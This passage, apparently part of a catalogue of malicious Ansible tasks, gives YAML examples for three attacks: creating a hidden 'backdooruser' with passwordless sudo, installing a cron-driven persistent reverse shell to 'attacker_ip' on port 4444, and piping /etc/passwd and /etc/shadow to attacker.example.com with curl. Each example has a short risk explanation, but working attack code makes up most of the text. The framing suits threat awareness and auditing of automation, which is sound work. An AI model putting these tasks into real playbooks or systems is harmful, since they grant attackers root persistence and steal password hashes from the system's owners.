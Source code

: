 ### 2. **Creating a Backdoor User Account**
   - **Purpose:** To create a hidden user account for unauthorized access.
   - **Task Example:**
     ```yaml
     - name: Create a backdoor user with sudo privileges
       user:
         name: backdooruser
         password: "{{ 'secret_password' | password_hash('sha512') }}"
         shell: /bin/bash
         groups: sudo
         state: present

     - name: Ensure backdoor user can sudo without a password
       lineinfile:
         dest: /etc/sudoers
         line: 'backdooruser ALL=(ALL) NOPASSWD:ALL'
         validate: 'visudo -cf %s'
     ```
   - **Risk:** This creates a user account named `backdooruser` with sudo privileges and configures the account to run sudo commands without a password, effectively giving the attacker root access.

### 3. **Installing a Reverse Shell**
   - **Purpose:** To establish an outbound connection that gives the attacker control over the system.
   - **Task Example:**
     ```yaml
     - name: Install a persistent reverse shell
       copy:
         content: |
           #!/bin/bash
           while true; do
             bash -i >& /dev/tcp/attacker_ip/4444 0>&1
             sleep 10
           done
         dest: /usr/local/bin/reverse_shell.sh
         mode: '0755'

     - name: Create a cron job to run the reverse shell
       cron:
         name: "Persistent Reverse Shell"
         job: "/usr/local/bin/reverse_shell.sh"
         state: present
         minute: "*/5"
     ```
   - **Risk:** This sets up a reverse shell that connects back to the attacker's server, allowing them to execute commands on the compromised machine. The cron job ensures that the shell is executed every five minutes, making it difficult to remove.

### 4. **Exfiltrating Data**
   - **Purpose:** To steal sensitive data from the target system.
   - **Task Example:**
     ```yaml
     - name: Exfiltrate sensitive data
       command: tar czf - /etc/passwd /etc/shadow | curl -X POST -F 'data=@-' http://attacker.example.com/upload
     ```
   - **Risk:** This task archives sensitive files like `/etc/passwd` and `/etc/shadow` (which contain user account and password hash information) and sends them to the attacker's server via HTTP POST.
